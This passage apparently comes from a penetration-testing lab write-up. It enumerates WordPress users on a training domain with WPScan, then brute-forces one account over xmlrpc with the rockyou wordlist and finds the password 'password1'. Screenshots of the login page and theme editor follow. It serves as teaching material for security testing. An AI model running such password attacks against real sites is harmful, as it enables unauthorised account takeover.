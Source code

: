 ```
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] john
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

```
┌──(nabla㉿kali)-[~]
└─$ wpscan --url http://ir.inlanefreight.local -P /usr/share/wordlists/rockyou.txt -U ilfreightwp 

[SNIP]

[+] Performing password attack on Xmlrpc against 1 user/s

[!] Valid Combinations Found:
 | Username: ilfreightwp, Password: password1
```

![Firefox - WordPress Login Page](./assets/screenshots/attacking_enterprise_networks_external_testing_16.png)

![Firefox - WordPress Admin Theme Editor](./assets/screenshots/attacking_enterprise_networks_external_testing_17.png)
